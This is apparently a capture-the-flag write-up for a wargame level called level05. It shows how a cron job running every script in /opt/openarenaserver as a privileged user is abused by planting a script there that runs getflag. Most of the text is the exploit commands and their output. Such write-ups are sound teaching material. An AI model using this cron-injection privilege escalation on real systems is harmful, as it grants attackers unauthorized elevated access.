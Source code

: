 ### Documentation
[Crontab](https://www.linuxtricks.fr/wiki/cron-et-crontab-le-planificateur-de-taches)

### External
```
BASH    cron_infection
```

### Exploit
1. You have new mail.

2. `cat /var/mail/level05`
    ```bash
   #crontab
   */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
   ```

3. `cat /usr/sbin/openarenaserver`
   ```bash
   #!/bin/sh

    for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
    done
    ```

4. `./send level05 cron_infection`

5. `./cron_infection /opt/openarenaserver/evil getflag /tmp/flag`
